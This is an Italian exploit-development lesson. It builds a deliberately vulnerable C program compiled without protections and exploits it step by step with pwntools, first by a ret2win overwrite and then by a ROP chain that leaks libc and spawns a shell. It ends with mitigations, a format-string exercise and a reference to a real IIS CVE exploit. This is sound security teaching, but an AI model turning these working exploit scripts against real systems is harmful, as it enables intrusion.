

# BoF → shell: exploit completo da zero

> Riproduci ogni comando sulla tua VM Linux. Funzionerà al primo colpo se segui passo passo.

## Il sorgente vulnerabile

`vuln.c`:

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("you reached win() — flag: {pwnedcode}\n");
    system("/bin/sh");
}

void greet() {
    char buf[64];
    printf("Inserisci nome: ");
    fflush(stdout);
    read(0, buf, 256);   // bug: legge 256 byte in un buffer da 64
    printf("Ciao %s\n", buf);
}

int main() {
    greet();
    return 0;
}
```

C'è:
- `read(0, buf, 256)` legge fino a 256 byte in un buffer da 64 → **overflow di 192 byte oltre buf**.
- `win()` è una funzione "obiettivo" non chiamata mai dal flow normale.

## Step 1 — compila con protezioni disabilitate

```bash
gcc -fno-stack-protector -no-pie -z execstack -O0 -g vuln.c -o vuln
```

Spiegazione flag:
- `-fno-stack-protector` → niente canary.
- `-no-pie` → indirizzi di codice fissi (binary non rilocato).
- `-z execstack` → stack eseguibile (servirà se vogliamo shellcode su stack; per ret-to-win non necessario).
- `-O0` → niente ottimizzazione, codice prevedibile.
- `-g` → simboli debug.

Verifica con `checksec`:
```bash
checksec --file=./vuln
```
Output atteso:
```
RELRO       STACK CANARY    NX            PIE           Symbols
Partial RELRO   No canary found   NX enabled    No PIE       103 Symbols
```

(NX è ancora on — fine così per ora.)

## Step 2 — esegui per capire input/output

```bash
./vuln
# Inserisci nome: Alice
# Ciao Alice
```

Adesso prova un overflow:
```bash
python3 -c "print('A'*100)" | ./vuln
# Ciao AAAA...AAA
# Segmentation fault (core dumped)
```

**Crash**. La CPU ha provato a tornare a `0x4141414141414141` (8 byte di 'A' nel return address) → indirizzo non mappato → segfault.

## Step 3 — trova l'offset esatto

Usa un **pattern non-ripetente** (de Bruijn sequence). pwntools:

```python
# find_offset.py
from pwn import *
context.update(arch='amd64', os='linux')
io = process('./vuln')
io.recvuntil(b': ')
io.sendline(cyclic(200))
io.wait()
core = io.corefile
print(f"RIP overwritten with: {hex(core.fault_addr)}")
print(f"Offset: {cyclic_find(core.fault_addr & 0xffffffff)}")
```

```bash
python3 find_offset.py
# RIP overwritten with: 0x6161617661616175  ← pattern de Bruijn
# Offset: 72
```

**72 byte** (64 buf + 8 RBP salvato) prima di RIP. (Può variare: il compilatore può aggiungere padding. Su alcuni sistemi è 80.)

### Visualizzato

<figure class="diagram">
<svg viewBox="0 0 540 380" width="540" height="380" xmlns="http://www.w3.org/2000/svg">
  <style>
    .lbl { font-family: 'JetBrains Mono', monospace; font-size: 13px; fill: #e8eef0; }
    .addr { font-family: 'JetBrains Mono', monospace; font-size: 11px; fill: #8a9499; }
    .note { font-family: 'JetBrains Mono', monospace; font-size: 11.5px; fill: #ffe066; }
    .pay { font-family: 'JetBrains Mono', monospace; font-size: 11.5px; fill: #ff3da6; }
  </style>
  <text x="170" y="20" class="addr" text-anchor="middle">indirizzi alti</text>
  <!-- return address -->
  <rect x="40" y="30" width="260" height="40" fill="#3a0b0b" stroke="#ff4d4d" stroke-width="2"/>
  <text x="170" y="55" class="lbl" text-anchor="middle">return address (8 byte)</text>
  <text x="310" y="55" class="note">← byte 73-80</text>
  <!-- saved RBP -->
  <rect x="40" y="70" width="260" height="40" fill="#3a2a00" stroke="#ffe066" stroke-width="2"/>
  <text x="170" y="95" class="lbl" text-anchor="middle">saved RBP (8 byte)</text>
  <text x="310" y="95" class="note">← byte 65-72</text>
  <!-- buf 63 -->
  <rect x="40" y="110" width="260" height="220" fill="#0b3a1a" stroke="#00ff9c" stroke-width="2"/>
  <text x="170" y="135" class="lbl" text-anchor="middle">buf[63]</text>
  <text x="170" y="200" class="lbl" text-anchor="middle">...</text>
  <text x="170" y="270" class="lbl" text-anchor="middle">buf[1]</text>
  <text x="170" y="320" class="lbl" text-anchor="middle">buf[0]</text>
  <text x="310" y="135" class="note">← byte 64</text>
  <text x="310" y="320" class="note">← byte 1 (RSP)</text>
  <text x="170" y="355" class="addr" text-anchor="middle">indirizzi bassi</text>
  <!-- payload arrow -->
  <text x="430" y="40" class="pay">PAYLOAD:</text>
  <text x="430" y="60" class="pay">72×'A'</text>
  <text x="430" y="80" class="pay">+ 8B addr</text>
  <text x="430" y="100" class="pay">(little-endian)</text>
  <line x1="420" y1="55" x2="305" y2="55" stroke="#ff3da6" stroke-width="1.5" marker-end="url(#a2)"/>
  <line x1="420" y1="200" x2="305" y2="200" stroke="#ff3da6" stroke-width="1.5" marker-end="url(#a2)"/>
  <text x="430" y="200" class="pay">scrive qui</text>
  <text x="430" y="220" class="pay">→ sovrascrive</text>
  <text x="430" y="240" class="pay">tutto</text>
  <defs>
    <marker id="a2" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="6" markerHeight="6" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="#ff3da6"/>
    </marker>
  </defs>
</svg>
<figcaption>Stack frame di greet() — overflow di 256 byte parte da buf[0] e arriva ben oltre il return address</figcaption>
</figure>

## Step 4 — trova l'indirizzo di `win()`

```bash
nm ./vuln | grep win
# 0000000000401196 T win
```

`win` è a `0x401196` (perché `-no-pie`: indirizzi fissi).

In gdb:
```
(gdb) disas win
   0x0000000000401196 <+0>:     endbr64
   0x000000000040119a <+4>:     push   rbp
   ...
```

`0x401196` è l'entry point.

## Step 5 — costruisci il payload

```python
# exploit.py
from pwn import *

context.update(arch='amd64', os='linux')

WIN = 0x401196

payload  = b"A" * 72
payload += p64(WIN)

io = process('./vuln')
io.recvuntil(b': ')
io.sendline(payload)
io.interactive()
```

Spiegazione:
- `p64(WIN)` impacchetta `0x0000000000401196` come **8 byte little-endian**: `\x96\x11\x40\x00\x00\x00\x00\x00`.
- 72 'A' riempie buf + saved RBP.
- I successivi 8 byte sovrascrivono return address con indirizzo di `win`.

Esegui:
```bash
python3 exploit.py
# [+] Starting local process './vuln': pid 12345
# [*] Switching to interactive mode
# Inserisci nome: Ciao AAAAA...AAAA
# you reached win() — flag: {pwnedcode}
# $ id
# uid=1000(alice) gid=1000(alice) groups=1000(alice)
# $ whoami
# alice
```

**Hai una shell.** Hai bypassato il flow normale del programma.

## Step 6 — variante: stack alignment issue

A volte `system("/bin/sh")` crasha con `movaps` (SIGSEGV in libc). Causa: RSP non allineato a 16 byte. Soluzione: prima di saltare a `win`, salta a un `ret` gadget (allinea sottraendo 8 byte da RSP).

```python
RET_GADGET = 0x40101a    # cerca un "ret" in objdump
payload = b"A"*72 + p64(RET_GADGET) + p64(WIN)
```

ROPgadget:
```bash
ROPgadget --binary ./vuln --only "ret"
```

## Step 7 — con ASLR ON, niente `win()`: serve ROP

Ricompila senza `win`:
```c
// vuln2.c
#include <stdio.h>
#include <unistd.h>
int main() {
    char buf[64];
    read(0, buf, 256);
    return 0;
}
```

```bash
gcc -fno-stack-protector -no-pie -O0 vuln2.c -o vuln2
```

**Niente `win`** — bisogna chiamare `system("/bin/sh")` dalla libc. Ma ASLR randomizza libc → non sai l'indirizzo. Quindi:

### Step 7.1 — leakare un indirizzo libc

Usiamo PLT (`puts@plt`) per stampare il contenuto della GOT di `puts` (che dopo il primo call contiene l'indirizzo *reale* di `puts` in libc).

```bash
objdump -d ./vuln2 | grep -E "puts@plt|read@plt"
# vuln2 ha puts? no, magari solo read e write.
# Riscriviamo:
```

Versione che usa `puts`:
```c
#include <stdio.h>
#include <unistd.h>
int main() {
    char buf[64];
    puts("hi");           // forza il binding di puts
    read(0, buf, 256);
    return 0;
}
```

Compila come sopra. Ora:
```bash
objdump -d ./vuln2 | grep "puts@plt"
# 0000000000401050 <puts@plt>:
objdump -R ./vuln2 | grep puts
# 0000000000404018  R_X86_64_JUMP_SLOT puts@GLIBC_2.2.5  ← GOT entry
```

`puts@plt = 0x401050`, `puts@got = 0x404018`.

### Step 7.2 — cos'è un gadget ROP (la parte che tutti glissano)

Un **gadget** è una **sequenza di istruzioni asm già presenti nel binario o nelle librerie** che termina con `ret`. Es:

```
pop rdi
ret
```

Sono soltanto due byte di codice: `5F C3` (`5F` = `pop rdi`, `C3` = `ret`). Si trovano per caso a metà di funzioni esistenti.

**Perché funzionano:** quando metti l'indirizzo del gadget nello stack al posto del return address, il `ret` salta lì. La CPU esegue `pop rdi` (che preleva il prossimo valore dallo stack in RDI), poi `ret` (che salta al successivo). Così, mettendo nello stack questa sequenza:

```
[ &(pop rdi; ret) ]   ← 1° valore: indirizzo del gadget
[ 0xCAFEBABE      ]   ← 2° valore: finisce in RDI dopo pop
[ &(funzione)     ]   ← 3° valore: nuovo "return", la CPU lo salta a fine gadget
```

…la CPU esegue effettivamente: imposta `RDI = 0xCAFEBABE`, salta a `funzione`. **Hai chiamato una funzione con argomento controllato senza nessuna `call` originale del programma.**

#### Visualizzazione esecuzione gadget



#### Concatenare più gadget

Vuoi anche RSI, RDX? Trovi gadget come `pop rsi; pop r15; ret` e li metti in sequenza. La "chain" è una lista di valori sullo stack che la CPU consuma uno alla volta.

#### Come trovare i gadget

`ROPgadget` scansiona ogni sezione eseguibile del binario cercando byte come `5F C3` e mostra dove iniziano:

```bash
ROPgadget --binary ./vuln2 --only "pop|ret" | grep "pop rdi"
# 0x000000000040118a : pop rdi ; ret
```

Risultato: `pop rdi; ret` è a indirizzo `0x40118a` nel binario. Salvo come `POP_RDI`.

> Senza `-no-pie`, il binary ha base randomizzata → l'offset relativo è fisso ma la base no → devi leakkare l'indirizzo del codice prima di usare gadget del binario. Spesso si preferiscono gadget di libc dopo aver leakkato libc base.

### Step 7.3 — ROP per leak

```python
# leak.py
from pwn import *
context.update(arch='amd64', os='linux')

elf = ELF('./vuln2')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')

POP_RDI = 0x40118a
RET     = 0x40101a   # gadget ret puro
MAIN    = elf.symbols['main']

io = process('./vuln2')
io.recvuntil(b'hi\n')

# Payload: leak puts@got, poi ritorna a main per fare round 2
payload = b"A"*72
payload += p64(POP_RDI)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(MAIN)              # ritorna a main per chiedere un secondo input
io.sendline(payload)

# leggi 8 byte di leak
puts_leak = u64(io.recvline().strip().ljust(8, b'\x00'))
print(f"puts leak: {hex(puts_leak)}")

# Calcola base libc
libc.address = puts_leak - libc.symbols['puts']
print(f"libc base: {hex(libc.address)}")

# Round 2: chiama system("/bin/sh")
SYSTEM   = libc.symbols['system']
BIN_SH   = next(libc.search(b"/bin/sh\x00"))
print(f"system: {hex(SYSTEM)}, /bin/sh: {hex(BIN_SH)}")

payload2 = b"A"*72
payload2 += p64(RET)              # stack align
payload2 += p64(POP_RDI)
payload2 += p64(BIN_SH)
payload2 += p64(SYSTEM)
io.sendline(payload2)
io.interactive()
```

Run:
```bash
python3 leak.py
# [+] Starting local process './vuln2': pid 23456
# puts leak: 0x7f8e3a5e7c50
# libc base: 0x7f8e3a567000
# system: 0x7f8e3a5b4d50, /bin/sh: 0x7f8e3a716678
# $ id
# uid=1000(alice) ...
```

### Spiegazione di ogni elemento del payload (riga per riga)

**Round 1 — payload di leak.** Anatomia con annotazioni:

<figure class="diagram">
<svg viewBox="0 0 660 280" width="660" height="280" xmlns="http://www.w3.org/2000/svg">
  <style>
    .lbl { font-family: 'JetBrains Mono', monospace; font-size: 12px; fill: #e8eef0; }
    .annot { font-family: 'JetBrains Mono', monospace; font-size: 11px; fill: #ffe066; }
    .off { font-family: 'JetBrains Mono', monospace; font-size: 11px; fill: #8a9499; }
  </style>
  <!-- offset col -->
  <text x="20"  y="40"  class="off">off 0</text>
  <text x="20"  y="80"  class="off">off 72</text>
  <text x="20"  y="120" class="off">off 80</text>
  <text x="20"  y="160" class="off">off 88</text>
  <text x="20"  y="200" class="off">off 96</text>
  <!-- payload boxes -->
  <rect x="80" y="20" width="240" height="40" fill="#0b3a1a" stroke="#00ff9c"/>
  <text x="200" y="44" class="lbl" text-anchor="middle">'A' × 72 (padding)</text>
  <rect x="80" y="60" width="240" height="40" fill="#3a2a00" stroke="#ffe066"/>
  <text x="200" y="84" class="lbl" text-anchor="middle">POP_RDI gadget addr</text>
  <rect x="80" y="100" width="240" height="40" fill="#0b3a3a" stroke="#00e6ff"/>
  <text x="200" y="124" class="lbl" text-anchor="middle">puts@got (arg per pop rdi)</text>
  <rect x="80" y="140" width="240" height="40" fill="#3a2a00" stroke="#ffe066"/>
  <text x="200" y="164" class="lbl" text-anchor="middle">puts@plt (chiama puts)</text>
  <rect x="80" y="180" width="240" height="40" fill="#3a0b3a" stroke="#ff3da6"/>
  <text x="200" y="204" class="lbl" text-anchor="middle">main (ritorno = restart)</text>
  <!-- annotations -->
  <text x="340" y="44" class="annot">→ riempie buf + RBP salvato</text>
  <text x="340" y="84" class="annot">→ CPU al ret salta qui</text>
  <text x="340" y="124" class="annot">→ pop rdi: RDI = &puts@got</text>
  <text x="340" y="164" class="annot">→ chiama puts(RDI) → stampa</text>
  <text x="340" y="204" class="annot">→ riavvia main per round 2</text>
  <text x="80" y="260" class="lbl">Tutto sullo stack DOPO il return address originale: la CPU consuma uno per volta via ret.</text>
</svg>
<figcaption>Anatomia del ROP payload round 1 — ogni 8 byte è un'azione</figcaption>
</figure>

**Esecuzione passo-passo della chain** (cosa fa la CPU dopo `ret` di `main`):

| Step | RIP | Stack pointer  | Cosa accade |
|------|-----|----------------|------------|
| 1 | `POP_RDI` | punta a `puts@got` | `pop rdi` → RDI = `puts@got` |
| 2 | `puts@plt` | punta a `main` | esegue `puts(RDI)` → stampa l'indirizzo libc di puts |
| 3 | `main` | punta agli "A" sotto (rotto, ma non importa) | riparte `main`, chiede nuovo input |

**Calcolo libc base dopo il leak:**

```python
libc.address = puts_leak - libc.symbols['puts']
```

- `puts_leak` = es. `0x7f8e3a5e7c50` (indirizzo assoluto in memoria, randomizzato da ASLR).
- `libc.symbols['puts']` = es. `0x80c50` (offset costante di `puts` dentro il binary `libc.so.6`).
- `libc.address` = differenza = base assoluta dove libc è caricata in questa esecuzione.

Da qui possiamo calcolare l'indirizzo di **qualsiasi** funzione libc: `system = libc.address + libc.symbols['system']`, stringhe come `/bin/sh` con `next(libc.search(b"/bin/sh\x00"))`.

**Round 2 — payload finale (la shell):**

| Slot | Valore | Effetto |
|------|--------|---------|
| `'A' × 72` | padding | riempie buf+RBP |
| `RET` | gadget `ret` puro | allinea RSP a 16 byte (richiesta `movaps` in `system`) |
| `POP_RDI` | `pop rdi; ret` | prossimo valore in RDI |
| `&"/bin/sh"` | stringa in libc | argomento 1 |
| `SYSTEM` | `libc.address + offset_system` | chiama `system("/bin/sh")` |

Risultato: shell ti torna sotto i piedi.

> **Riassunto mentale**: stack overflow → controllo RIP → con ROP costruisco una "macchina virtuale" di chiamate sequenziali → la prima fa leak (perché ASLR), la seconda invoca system. **Niente shellcode**, **niente esecuzione su stack**, **tutto con codice già esistente**.

## Step 8 — Capire i flag di mitigation

Ricompila con tutte:
```bash
gcc vuln.c -o vuln_safe
checksec --file=./vuln_safe
```

```
RELRO          STACK CANARY      NX            PIE
Full RELRO     Canary found      NX enabled    PIE enabled    103 Symbols
```

- **Canary**: 8 byte random tra buf e saved RBP. Se sovrascritti, abort.
- **PIE**: il binary stesso ha indirizzi randomizzati ogni run.
- **Full RELRO**: GOT read-only (niente GOT overwrite).

Senza un info-leak di canary e binary base, BoF non funziona. **Combinato a:**
- **ASLR**: libc/stack/heap randomici.

Bypass: serve un secondo bug (info-leak) che leakhi canary, binary base, libc base.

### Hardening compilatore moderno

GCC 12+ + glibc 2.38+ aggiungono ulteriori check:
- **_FORTIFY_SOURCE=3**: check su `strcpy`, `read` con buffer size noto.
- **SafeStack** (LLVM): stack separato per pointer / dati.
- **CET** (Intel): shadow stack hardware + Indirect Branch Tracking. Disponibile su CPU recent.

## Step 9 — caso reale: CVE come exploit-dev mindset

Catena tipica di vulnerability research (semplificata):
1. **Fuzzing** (AFL++) trova crash in libtarget.
2. **Triage**: il crash è exploitable? Sovrascrive RIP/funtion ptr?
3. **Stabilizzazione**: rendere il crash deterministic.
4. **Primitive**: trasforma crash in primitiva "leak" o "write".
5. **Exploit**: catena primitive in shell.

I tool moderni (AFL++ + ASAN + sancov) accelerano steps 1-3. Step 4-5 restano arte.

## Step 10 — Estensioni e pratica continua

- **Ret2dlresolve** (quando libc address impossibile da leakare).
- **Stack pivoting** quando lo stack scrivibile è piccolo.
- **House of ...** per heap.
- **Format string** per primitive read+write arbitrary.

Risorse:
- **ROP Emporium** (https://ropemporium.com): challenge ROP guidati con difficoltà crescente.
- **pwn.college**: corso strutturato.
- **pwnable.kr**, **pwnable.tw**, **HackTheBox pwn**.

## Esercizi

### Es 14b.1 — Riproduce passo passo
Riproduci tutta la sezione 1-6 sulla tua VM. Documenta ogni step con screenshot/output. Quando arrivi alla shell, conta i minuti dall'inizio.

### Es 14b.2 — Modifica e adatta
Cambia la dimensione del buffer da 64 a 128. Quale nuovo offset?

### Es 14b.3 — Con canary
Ricompila con `-fstack-protector-all`. Modifica payload. Senza modificare il programma, esegui. Cosa succede al ret?

Risposta: il canary viene sovrascritto → `__stack_chk_fail` → abort. Per bypassare devi prima leakkare il canary (info leak).

### Es 14b.4 — ROP Emporium
Vai su [ropemporium.com](https://ropemporium.com). Completa "ret2win", "split", "callme", "write4". Sono guidati e progressivi.

### Es 14b.5 — Format string
Compila:
```c
#include <stdio.h>
int secret = 0xdeadbeef;
int main() {
    char buf[100];
    fgets(buf, 100, stdin);
    printf(buf);
    return 0;
}
```

Con `gcc -fno-stack-protector -no-pie`. Input `%p %p %p %p %p`. Vedi indirizzi stack. Leakkalo, poi usa `%n` per scrivere.

### Es 14b.6 — Studio caso CVE
Studia [CVE-2017-7269](https://www.exploit-db.com/exploits/41738) (IIS 6.0 ScStoragePathFromUrl) — esempio classico di BoF stack-based in produzione. Capisci la chain.

## Concetti chiave

1. **BoF stack-based** è 50 anni vecchio ed è ancora dei più comuni.
2. **Offset** = buf size + RBP salvato (di solito).
3. **Senza protezioni** → ret2win banale.
4. **NX on** → ROP.
5. **ASLR on** → serve info-leak prima.
6. **Canary on** → serve leak del canary o overflow nessuno-frame.
7. **Full mitigations modern + CET** → exploit richiede 2-3 bug separati e creatività.

Adesso il "stack overflow" non è più una parola — è un'esperienza tua, riproducibile, debuggata.
